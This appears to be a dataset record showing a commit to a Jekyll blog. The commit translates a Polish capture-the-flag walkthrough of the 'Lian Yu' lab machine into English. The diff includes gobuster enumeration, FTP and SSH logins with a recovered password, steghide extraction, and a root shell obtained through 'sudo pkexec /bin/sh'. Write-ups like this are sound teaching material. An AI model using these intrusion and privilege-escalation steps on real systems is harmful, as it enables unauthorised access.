

Before and after one commit to vq4s/vq4s.github.io, a Jekyll site: the page built from _posts/2025-01-28-Lian-Yu.md, in a window 1280 px wide and 1400 px high, scrolled down 8527 px. Shown: the whole window, without its empty margins (272-991 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 9646 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update and rename 2025-01-07-first-machine.md to 2025-01-28-Lian-Yu.md

````diff
--- a/_posts/2025-01-07-first-machine.md
+++ b/_posts/2025-01-28-Lian-Yu.md
@@ -48,7 +48,7 @@
 - Port 80: HTTP (Apache HTTP Server)
 - Port 111: RPC (rpcbind)
 
----
+
 
 ## **HTTP Enumeration**
 
@@ -85,7 +85,7 @@
 ![html1](https://github.com/user-attachments/assets/b86efe03-1ec8-42d5-a461-81cf302f30ac)
 ![html2](https://github.com/user-attachments/assets/b805ba29-11a9-46a7-9687-5b5e6580bb7b)
 
-
+We need to dig deeper
 
 ```bash
 ┌──(vq4s㉿kali)-[~/Downloads]
@@ -119,6 +119,7 @@
 ![html3](https://github.com/user-attachments/assets/8a7f94b8-2c04-43d6-acff-27d189f47454)
 ![html4](https://github.com/user-attachments/assets/00650d4d-32bb-4016-8c80-2fabb3cd86ae)
 
+`.ticket` - this might be useful!
 ```bash
 ┌──(vq4s㉿kali)-[~/Downloads]
 └─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.28.229/island/2100 -t 50 -x ticket
@@ -149,16 +150,14 @@
 ![html5](https://github.com/user-attachments/assets/a38b3755-bd73-4a86-9e2a-d4219e14c4f6)
 
 
-## **Base58 Decoding**
-
-Let's check provided string
 
 
+<br></br>
+We got something new! Let's analyze it in CyberChef.
+![cyberchef](https://github.com/user-attachments/assets/790ef212-836d-4296-96b4-1a4c00d80bce)
 
-
-
-**FTP login**
-
+## **FTP login**
+Now we can try to login FTP
 ```bash
 ┌──(vq4s㉿kali)-[~/Downloads]
 └─$ ftp vigilante@10.10.28.229
@@ -224,13 +223,20 @@
   - `aa.jpg`
 
 
-## **Analiza plików graficznych**
+From `.other_user` we got username: Slade
 
-### **Steganografia w `aa.jpg`**
+We can see one file appears to be corrupted, Let's check what might be wrong with it.
+![photo1](https://github.com/user-attachments/assets/24e6c561-b4df-46b1-9894-2a0ba5c58e51)
+![photo2](https://github.com/user-attachments/assets/ce286741-60b3-4223-bd89-8cacbc2e05d9)
+After comparing file in hex editor, we can see that someone changed file format, We need to restore the correct header to fix it.
+![photo3](https://github.com/user-attachments/assets/b15bd443-98c2-4404-ba0b-0f948ba05d94)
+![photo4](https://github.com/user-attachments/assets/80719185-3e70-4521-8c4e-7a178bb771bd)
 
-Plik `aa.jpg` zawierał ukrytą zawartość, którą wydobyto za pomocą **steghide**.
+Now we are able to see PNG file. Let's check other photo with `stehgide`
 
-**Komenda:**
+
+
+
 ```bash
 ┌──(vq4s㉿kali)-[~/Downloads/Lian_Yu]
 └─$ steghide extract -sf aa.jpg
@@ -241,14 +247,8 @@
 Archive:  ss.zip
   inflating: passwd.txt
   inflating: shado
-```
 
-**Wynik:**
-- Wydobyto archiwum `ss.zip`.
-- Po rozpakowaniu znaleziono pliki `passwd.txt` i `shado`.
 
-**Zawartość `passwd.txt` oraz `shado`:**
-```
 ┌──(vq4s㉿kali)-[~/Downloads/Lian_Yu]
 └─$ cat passwd.txt && cat shado
 This is your visa to Land on Lian_Yu # Just for Fun ***
@@ -270,15 +270,11 @@
 
 ```
 
-Hasło `M3tahuman` zostało wykorzystane do kolejnych kroków.
+The password `M3tahuman` was used in the subsequent steps.
 
----
 
-## **7. Logowanie na użytkownika `slade` przez SSH**
 
-Zidentyfikowano nowego użytkownika `slade`. Użyto hasła z `passwd.txt`.
-
-**Komenda:**
+## **SSH login**
 ```bash
 ┌──(vq4s㉿kali)-[~/Downloads/Lian_Yu]
 └─$ ssh slade@10.10.28.229
@@ -304,12 +300,6 @@
 
 ```
 
-**Wynik:**
-- Zalogowano pomyślnie.
-
-W katalogu użytkownika znaleziono plik `user.txt`.
-
-**Zawartość `user.txt`:**
 ```
 slade@LianYu:~$ ls -la
 total 32
@@ -323,13 +313,10 @@
 -r-------- 1 slade slade   63 May  1  2020 user.txt
 ```
 
----
 
-## **8. Privilege Escalation**
 
-Sprawdzono przywileje sudo użytkownika `slade`.
+## **Privilege Escalation**
 
-**Komenda:**
 ```bash
 slade@LianYu:~$ sudo -l
 [sudo] password for slade:
@@ -340,21 +327,13 @@
     (root) PASSWD: /usr/bin/pkexec
 slade@LianYu:~$ sudo pkexec /bin/sh
 ```
+We can use pkexec as root, it will be helpfull to spawn root shell
 
-**Wynik:**
-- Użytkownik może uruchomić `/usr/bin/pkexec` jako root.
 
-Uruchomiono interaktywną powłokę root:
-
-**Komenda:**
 ```bash
 sudo pkexec /bin/sh
 ```
 
-**Wynik:**
-- Uzyskano dostęp do konta root.
-
-W katalogu root znaleziono plik `root.txt`.
 
 **Zawartość `root.txt`:**
 ```
@@ -366,7 +345,6 @@
 User slade may run the following commands on LianYu:
     (root) PASSWD: /usr/bin/pkexec
 slade@LianYu:~$ sudo pkexec /bin/sh
-# id
 # bash
 root@LianYu:~# pwd
 /root
@@ -380,11 +358,3 @@
 -rw-r--r--  1 root root  140 Nov 19  2007 .profile
 -rw-r--r--  1 root root  340 May  1  2020 root.txt
 ```
-
----
-
-## **Podsumowanie**
-
-Maszyna "Lian Yu" była dobrze zaprojektowana, z elementami steganografii, dekodowania i klasycznego privilege escalation. Proces był liniowy, ale wymagał dokładności przy analizie plików i elementów HTML.
-
-**Dziękuję za uwagę!** 😊
````
Also changed, not shown: other parts of _posts/2025-01-28-Lian-Yu.md (+1 -1 lines).
